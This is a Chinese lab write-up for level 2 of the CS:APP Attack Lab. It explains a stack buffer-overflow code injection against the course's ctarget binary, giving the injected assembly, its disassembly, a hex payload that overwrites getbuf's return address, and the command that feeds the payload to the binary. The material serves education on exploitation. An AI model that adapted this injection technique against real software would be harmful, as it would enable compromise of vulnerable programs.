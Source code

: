 ##	提示
1.	参数是保存在%rdi处
2.	使用ret跳转代码。因为ret是绝对地址跳转，而jmp和callq是相对地址跳转，对于注入代码来说，相对地址不好计算，绝对地址方便很多。

##	解决思路
&emsp;&emsp;那么首先我们思考一下，在getbuf之后代码应该跳转到哪里？=>跳转到我们的注入代码处。  
&emsp;&emsp;我们的注入代码在哪里？=>在getbuf申请的rsp栈帧里。   
&emsp;&emsp;此时rsp~rsp+0x27存放输入数据（注入代码），rsp+0x28~rsp+0x2f存放跳转地址。      
&emsp;&emsp;现在问题转化为寻找当前rsp的值。  
&emsp;&emsp;打开gdb，在getbuf这里设置断点。然后通过print $rsp查看栈顶值。  
&emsp;&emsp;我的rsp是$5561dc78。  

我们的思路是，将getbuf的返回函数地址修改为注入代码处的地址，也就是存放读入数据的栈顶位置，然后执行参数赋值、修改函数返回值的操作，最后ret带着参数跳转到touch2处。  

剩下的就好办了，新建inject.s文件，文件内容是：
```
mov $0x59b997fa, %rdi
push $0x4017ec
ret
```

使用先编译后反汇编得到二进制代码。
```
gcc -c inject.s
```

```
Objdump -d inject.o
```

反汇编内容如下：
```
inject.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:	48 c7 c7 fa 97 b9 59 	mov    $0x59b997fa,%rdi
   7:	68 ec 17 40 00       	pushq  $0x4017ec
   c:	c3                   	retq  
```


得到注入代码的字节码后，将其保存到ctarget-l2.txt，文件内容是:
```
48 c7 c7 fa 97 b9 59 68 ec 17
40 00 c3 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 00 00 
78 dc 61 55 00 00 00 00
```

最后输入指令即可pass第二个问题。
```
 ./hex2raw < ctarget-l2.txt | ./ctarget -q
```
